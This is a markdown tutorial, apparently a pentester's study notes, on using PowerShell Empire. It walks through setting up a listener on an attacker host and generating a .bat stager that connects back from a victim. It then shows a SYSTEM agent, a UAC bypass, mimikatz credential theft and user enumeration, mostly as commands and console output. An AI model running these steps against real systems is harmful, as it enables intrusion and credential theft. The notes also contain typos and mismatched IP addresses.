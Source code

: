 # PowerShell Empire

A post-exploitation framework which is useful once foothold is obtained.

* Tool: https://github.com/BC-SECURITY/Empire
* HowTo: https://hackmag.com/security/powershell-empire/

### Stating up PSempire

* Setup a server

`sudo powershell-empire server`

Server manages all requests and can be understood as a multi-player game server

Server address once started can be like `[*] Starting Empire RESTful API on 0.0.0.0:1337`

* Setup a client

Via client attacker uses server to attack victims. Connect to server address show like one above:

```bash

sudo powershell-empire client

#in the psempire shell connect to local host or other ip

(Empire) > connect -c localhost

[*] Connected to localhost

```

### Connecting to Victim

* To connect to victim it is necessary to setup a `listener` and a `stager`
* listener is going to wait on you attacker host for the stager, which is on victim host, to connect

#### Setup a Listener

```bash
#lsit listeners
(Empire) > listeners

#none right now
┌Listeners List──────┬───────────────────┬────────────┬─────────┐
│ ID │ Name │ Module │ Listener Category │ Created At │ Enabled │
└────┴──────┴────────┴───────────────────┴────────────┴─────────┘

#available listeners
(Empire: listeners) > uselistener

#press TAB after uselistener and get a list of possible listeners
(Empire: listeners) > uselistener
                                   dbx             
                                   http            
                                   http_com        
                                   http_foreign    
                                   http_hop        
                                   http_malleable  
                                   onedrive        
                                   redirector      

#http listener is always a good choice since not blocked mostly by FWs

(Empire: listeners) > uselistener http

 Author       @harmj0y                                                              
 Description  Starts a http[s] listener (PowerShell or Python) that uses a GET/POST                                                  
```

Now like with Metasploit set the attacker listener IP and port

```bash

(Empire: uselistener/http) > set Host 192.168.115.111
[*] Set Host to 192.168.119.158
(Empire: uselistener/http) > set Port 443
[*] Set Port to 443

#execute and enjoy

(Empire: uselistener/http) > execute
[+] Listener http successfully started

```

#### Setup a stager

Now somehow we need to connect to a victim. There are two ways of doing it:

1. bind: we connect to a victim
2. reverse: victim connects to us

Both of those ways need a stager that must be transferred to victim and activated preferrably with root or SYSTEM privileges.

```bash
#generate windows stager

(Empire: listeners) > usestager windows/launcher_bat

 Author       @harmj0y                                                            
 Description  Generates a self-deleting .bat launcher for Empire. Only works with 
              the HTTP and HTTP COM listeners.                                    
 Name         windows/launcher_bat  

#assign listener to stager

(Empire: usestager/windows/launcher_bat) > set Listener http
[*] Set Listener to http

# generate stager file 

(Empire: usestager/windows/launcher_bat) > execute
[+] stage1.bat written to /var/lib/powershell-empire/empire/client/generated-stagers/stage1.bat

#upload this stage file to victim host and launch it
#on success you see

[*] Sending agent (stage 2) to TV6GENUD at 192.168.158.10

# check if its really there 

(Empire: usestager/windows/launcher_bat) > agents

┌Agents──────────┬────────────┬───────────────┬─────────────┬
│ 1  │ TV6GENUD* │ powershell │ 172.16.158.10 │ corp\SYSTEM │ powershell │ 3708 │ 5/0.0 │ 2023-03-06 20:40:24 CET │ http     │

# looks good
# start using the connected agent

(Empire: agents) > interact TV6GENUD
(Empire: TV6GENUD) >

#see help for more interesting commands

(Empire: TV6GENUD) > help

# once task is started it may take some time until it runs due to delay

```

### Privesc

```bash

(Empire: TV6GENUD) > usemodule powershell/privesc/powerup/allchecks
[*] Set Agent to TV6GENU

```

* Bypassing UAC

`usemodule privesc/bypassuac_fodhelper`

### Stealing Credentials

```bash 
(Empire: TV6GENUD) > mimikatz

[*] Tasked TV6GENUD to run Task 1
[*] Task 1 results received
Job started: E4WVFS
[*] Task 1 results received

```

### Enumerating 

* `usemodule` command has various recon techniques

```powershell

# example for enumerating user

usemodule situational_awareness/network/powerview/get_user

```